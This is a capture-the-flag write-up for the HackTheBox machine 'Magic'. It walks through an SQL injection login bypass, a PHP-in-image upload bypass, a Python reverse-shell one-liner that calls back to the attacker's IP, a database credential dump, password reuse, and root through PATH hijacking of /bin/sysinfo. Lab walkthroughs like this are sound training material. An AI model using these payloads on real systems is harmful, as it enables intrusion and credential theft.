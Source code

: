 ```yaml
---
title: Magic Writeup
author: mooncakeza
date: 2020-04-20 11:30am
categories: [hackthebox]
tags: [hackthebox, writeup]
math: true
image: /assets/img/htb/Magic/magic_infocard.png
---
```


<p>Let's do a NMAP scan</p>

<img src="/assets/img/htb/Magic/01_nmap.png">

<p>
Browsing to http://10.10.10.185 we get a page with images and on the bottom left a login to upload images.
</p>

<img src="/assets/img/htb/Magic/02_login_message.png">

<p>
Let's click on the login link.
</p>

<img src="/assets/img/htb/Magic/03_login_blank.png">

<p>
I tried default top 10 usernames and passwords combos but nothing.
<br>
Since we have no credentials to try, we can try SQL injection
<br>
username: ‘or ’1'='1
<br>
password: ‘or ’1'='1
</p>

<img src="/assets/img/htb/Magic/04_login_sql.png">

<p>

We get prompted with an upload page for images.

<img src="/assets/img/htb/Magic/05_upload_img.png">

<p>

Let's see what can be uploaded. Let's just click upload.

</p>

<img src="/assets/img/htb/Magic/06_upload_img_error.png">

<p>

Only JPG, JPEG and PNG files are allowed.
<br>
Let's go for the bypassing the filter.
<br>
Let's upload a file and see where it saves it to.
<br>
It uploads it to the front page on the slider and when you right click to view image we can see it saves it under http://10.10.10.185/images/uploads/
<br>
Now let's do some magic
<br>
Take any JPG,JPEG or PNG inject it with some code and then rename the file.

</p>

<img src="/assets/img/htb/Magic/07_cmd_image_insert.png">

<p>

Upload this file via the upload page
<br>
In another terminal run nc -lvnp 9991
<br>
The only payload I found to work was the python method
<br>
Now point your browser or use curl to the following URL
<br>
http://10.10.10.185/images/uploads/lordcommander.php.jpeg?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",9991));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

</p>

<img src="/assets/img/htb/Magic/08_img_rev_shell.png">

<p>

We have a shell!
<br>
Let's get an interactive shell

<p>

<ol><li>python -c 'import pty; pty.spawn("/bin/bash")'</li><li>ctrl + z (put's the nc into the background)</li><li>echo $TERM (this gets what your term is set as)</li><li>stty -a (this gets your windows size)</li><li>stty raw -echo (NOTE: you will not see any output after this)</li><li>fg (go back to the nc)</li><li>reset (this resets the terminal settings on the remote machine</li><li>In the Terminal type, type in the $TERM output you got, in my case it was xterm-256color. </li></ol>

</p>

<p>

After enumerating a bit we get the following:

</p>

<img src="/assets/img/htb/Magic/09_db_details.png">

<p>

I tried to use the password to login via ssh and su but both failed.
<br>
This is not the password for the user.
<br>
Let's enumerate the database. There is no mysql client installed so the only way now is to do a mysqldump.

</p>

<img src="/assets/img/htb/Magic/10_db_dump.png">

<p>

We then find this in the dump:.

</p>

<img src="/assets/img/htb/Magic/11_db_creds.png">

<p>

We have some creds. Password reuse?
<br>
Let us just su to the user with the password.

</p>


<img src="/assets/img/htb/Magic/12_user_login_png.png">

<p>

user flag achieved!
<br>
Now for root.
<br>
We first have to upload some enumerating scripts.
<br>
I uploaded both LinEnum or LinPEAS and found this pretty interesting:

</p>

<img src="/assets/img/htb/Magic/13_exec_files.png">

<p> 

/bin/sysinfo is executable and the user group has permissions to run it.
<br>
There is another tool called pspy64 which monitors linux processes and we can use this to see what it does in the background. So we run /bin/sysinfo and monitor pspy64 and see the following.

</p>

<img src="/assets/img/htb/Magic/14_fdisk.png">

<p>

sysinfo calls a few files and seems like we can inject our own path to point to a custom created fdisk file to maybe create a reverse shell?
<br>
First in another terminal run our nc -lvnp 9994 
<br>
Back to the magic terminical and let us add /tmp into the system PATH
<br>
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin:/usr/games:/usr/local/games:/snap/bin:/tmp
<br>
We then create a file in /tmp with the following.

</p>

<img src="/assets/img/htb/Magic/15_python_shell.png">

<p>

Make it executable and then run /bin/sysinfo again and we watch pspy64.

</p>

<img src="/assets/img/htb/Magic/16_run_script.png">

<p>

You can see it has now executed our code from the fstab script we created in the /tmp directory instead of the actual operating system's fstab!
<br>
Let us pop to the terminal where we can our nc.

</p>

<img src="/assets/img/htb/Magic/17_shell_pop.png">

<p>

WE HAVE ROOT!

</p>
